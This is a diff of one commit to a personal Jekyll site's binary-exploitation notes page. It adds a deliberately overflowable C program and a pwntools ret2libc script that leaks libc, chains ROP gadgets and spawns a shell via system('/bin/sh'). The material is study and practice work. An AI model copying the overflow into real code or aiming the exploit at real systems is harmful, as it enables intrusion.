

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 38806 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 39436 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -1599,6 +1599,13 @@ $
 
 
 
+<br>
+
+
+
+
+
+<br>
 
 
 <br>
@@ -1610,7 +1617,82 @@ $
 <br>
 
 
-
+# A simpler version, no canary
+
+```c
+// gcc vuln.c -o vuln -fno-stack-protector
+#include <unistd.h>
+#include <stdio.h>
+
+int main() {
+    printf("free leak: %p\n", &printf);
+    fflush(stdout);
+
+    printf("payload: ");
+    fflush(stdout);
+
+    char input[100];
+    read(0, &input, 200);
+}
+```
+
+
+<br>
+
+
+
+```python
+from pwn import *
+libc = ELF('/usr/lib/libc.so.6')
+p = process('./vuln')
+
+n = 0x70
+
+print(p.recvuntil(b'free leak: '))
+printf_leak = int(p.recvline().strip().decode(), 16)
+
+LIBC_BASE = printf_leak - libc.symbols['printf']
+LIBC_SYSTEM = LIBC_BASE + libc.symbols['system']
+LIBC_BINSH = LIBC_BASE + next(libc.search(b'/bin/sh')) # or strings -td
+
+
+###### gadgets ###########
+# 0x244cc: ret ; (1 found)
+RET = p64(LIBC_BASE + 0x244cc)
+
+# 0xc398c: pop rdi ; or al, 0x00 ; ret ; (1 found)
+POP_RDI = p64(LIBC_BASE + 0xc398c)
+###########################
+
+payload = b'A'*n + b'oldrbpxx'
+
+# system
+payload += POP_RDI + p64(LIBC_BINSH)
+payload += RET + p64(LIBC_SYSTEM)
+
+print(p.recv())
+p.send(payload)
+p.interactive()
+```
+
+<br>
+
+
+
+<br>
+
+
+
+
+
+
+---
+
+
+<br>
+
+
+<br>
 
 
 <br>
````
